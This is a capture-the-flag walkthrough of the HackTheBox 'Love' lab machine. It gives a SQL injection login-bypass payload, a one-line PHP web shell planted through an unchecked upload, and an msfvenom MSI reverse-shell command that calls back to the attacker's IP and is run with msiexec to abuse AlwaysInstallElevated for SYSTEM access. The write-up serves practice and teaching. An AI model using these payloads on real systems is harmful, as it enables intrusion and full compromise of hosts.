


# Love — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Easy
**OS:** Windows

---

## TL;DR

Web server is running a vulnerable PHP application ("Voting System using PHP") → Exploitation via an unauthenticated SQL Injection authentication bypass (Exploit-DB 49846) grants admin dashboard access → We upload a malicious PHP file to gain a reverse shell → Running WinPEAS reveals that `AlwaysInstallElevated` registry keys are enabled for both HKLM and HKCU → We generate a malicious MSI payload with `msfvenom` and execute it to instantly gain a `SYSTEM` shell.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.10.239
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 80 | HTTP | Apache httpd 2.4.46 (PHP/7.3.27) |
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 443 | HTTPS | Apache httpd 2.4.46 |
| 445 | SMB | Windows 10 Pro 19042 microsoft-ds |
| 3306 | MySQL | MariaDB (Access Denied) |
| 5000 | HTTP | Apache httpd 2.4.46 |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |
| 5986 | WinRM(SSL)| Microsoft HTTPAPI httpd 2.0 |

The box is a Windows 10 Pro machine running an Apache web server. 
Checking the SSL certificate on Port 443 reveals a subdomain: `staging.love.htb`. 
We add `love.htb` and `staging.love.htb` to our `/etc/hosts` file.

---

## Exploitation — PHP App SQLi & File Upload

Navigating to the web server on Port 80 reveals a login portal for a "Voting System using PHP". 

Searching for exploits related to this specific application yields multiple results:
- **Exploit-DB 49846:** Authentication Bypass via SQLi
- **Exploit-DB 49843:** Authenticated Remote Code Execution

We leverage the SQLi vulnerability to bypass the login portal. Instead of relying on a pre-written script, we can manually inject the SQL payload directly into the username field on the login page:

**Username:**
```sql
dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
```
**Password:** `admin`

*Note: The injected bcrypt hash corresponds to the plaintext string "admin". The SQL query tricks the application into verifying our arbitrary hash rather than the real database hash.*

This successfully logs us in as an Administrator.



From the admin dashboard, we can navigate to a voter registration or profile update page that allows image uploads. The application fails to properly validate file extensions, permitting us to upload a PHP web shell instead of an image.

We upload a standard PHP reverse shell (e.g., Ivan Sincek's or a simple `<?php system($_GET['cmd']); ?>`) and trigger it by navigating to the designated upload directory.

We catch the reverse shell on our Netcat listener. We now have user access.

---

## Privilege Escalation — AlwaysInstallElevated

After establishing a reverse shell, we upload and execute `winPEAS.exe` to hunt for local privilege escalation vectors.

Reviewing the WinPEAS output, a critical misconfiguration stands out: The `AlwaysInstallElevated` registry keys are set to `1` (enabled) in both the Local Machine (HKLM) and Current User (HKCU) hives.



When both of these keys are enabled, Windows permits any user (regardless of their permission level) to install Microsoft Installer (`.msi`) packages with NT AUTHORITY\SYSTEM privileges.

We return to our attacking machine and generate a malicious MSI file using `msfvenom` that executes a reverse shell:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4444 -a x64 --platform windows -f msi -o ignite.msi
```

We transfer `ignite.msi` to the target machine (e.g., using `certutil` or `Invoke-WebRequest`).

With a new Netcat listener running on port 4444, we execute the installer silently using `msiexec`:

```cmd
msiexec /quiet /qn /i ignite.msi
```

The installer runs with elevated privileges, and our listener catches the resulting shell.

We are `NT AUTHORITY\SYSTEM`. **Root.** 🎉

---

## Key Takeaways

- **Open Source App Vulnerabilities:** "Off-the-shelf" web applications built by hobbyists or small teams often lack robust input sanitization, leading to critical SQLi and File Upload vulnerabilities. 
- **AlwaysInstallElevated:** This setting is incredibly dangerous and should almost never be enabled. If an organization requires software to be installed by standard users, solutions like SCCM or Intune should be used instead of relying on a global privilege escalation override.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*